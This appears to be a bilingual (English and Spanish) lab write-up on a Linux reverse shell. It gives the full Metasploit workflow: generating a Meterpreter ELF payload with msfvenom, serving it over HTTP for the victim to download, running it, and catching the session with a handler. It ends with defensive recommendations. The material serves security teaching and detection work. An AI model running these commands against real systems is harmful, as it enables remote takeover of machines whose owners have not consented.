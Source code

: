 
# Metasploit Reverse Shell Lab

## Objective

Explore the behavior of a reverse shell in Linux systems using Metasploit and verify the establishment of a remote session via msfconsole.

## Tools Used

- Kali Linux (attacker)
- Ubuntu Server (victim)
- msfvenom – payload generation
- msfconsole – handler setup
- tcpdump or netcat – traffic monitoring

## Procedure

1. Payload generation:

   A reverse TCP payload was generated in ELF format using the following command:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

![msfvenom session](screenshots/step3.jpg)

3. Payload transfer to the victim:

   The payload was hosted on the attacker's machine using:

   python3 -m http.server

   On the victim, it was downloaded using wget or curl.

![payload](screenshots/step4.jpg)

5. Metasploit handler setup:

   In msfconsole, the following configuration was used:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

![run](screenshots/step5.jpg)

7. Execution of the payload:

   On the victim machine:

   chmod +x shell.elf  
   ./shell.elf

9. Successful connection:

   A meterpreter session was established. Commands such as sysinfo, getuid, and shell were executed to demonstrate access.

![payload](screenshots/step7.jpg)

## Results

- The reverse shell connection was successfully established.
- Full control of the victim machine was obtained.
- Traffic was observable and unencrypted via tcpdump.

## Conclusions

- Reverse shells represent a high-risk vector when execution controls are not enforced.
- msfvenom can produce payloads that are not detected by signature-based AV.
- Properly configured tools like tcpdump or Snort can help detect unusual outgoing connections.

## Recommendations

- Use execution control mechanisms like AppArmor or SELinux.
- Monitor non-standard outbound connections.
- Block known ports used by payloads (e.g., 4444).
- Deploy IDS solutions to detect shell patterns and unauthorized access attempts.

# Laboratorio de Conexión Inversa con Metasploit

## Objetivo

Explorar el comportamiento de una conexión inversa en sistemas Linux utilizando Metasploit y verificar el establecimiento de una sesión remota mediante msfconsole.

## Herramientas Utilizadas

- Kali Linux (atacante)
- Ubuntu Server (víctima)
- msfvenom – generación del payload
- msfconsole – configuración del handler
- tcpdump o netcat – monitoreo del tráfico

## Procedimiento

1. Generación del payload:

   Se generó un payload TCP inverso en formato ELF con el siguiente comando:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

2. Transferencia del payload a la víctima:

   El payload fue alojado en la máquina atacante con:

   python3 -m http.server

   En la víctima se descargó usando wget o curl.

3. Configuración del handler en Metasploit:

   En msfconsole se configuró lo siguiente:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

4. Ejecución del payload:

   En la máquina víctima:

   chmod +x shell.elf  
   ./shell.elf

5. Conexión exitosa:

   Se estableció una sesión meterpreter. Se ejecutaron comandos como sysinfo, getuid y shell para verificar el acceso.

## Resultados

- La conexión inversa fue establecida exitosamente.
- Se obtuvo control completo de la máquina víctima.
- El tráfico fue visible y no cifrado usando tcpdump.

## Conclusiones

- Las conexiones inversas representan un vector de alto riesgo si no se aplican controles de ejecución.
- msfvenom puede generar payloads que no son detectados por antivirus basados en firmas.
- Herramientas como tcpdump o Snort, correctamente configuradas, pueden detectar conexiones salientes sospechosas.

## Recomendaciones

- Utilizar mecanismos de control de ejecución como AppArmor o SELinux.
- Monitorear conexiones salientes no estándar.
- Bloquear puertos comúnmente utilizados por payloads (por ejemplo, 4444).
- Implementar soluciones IDS para detectar patrones de shell y accesos no autorizados.
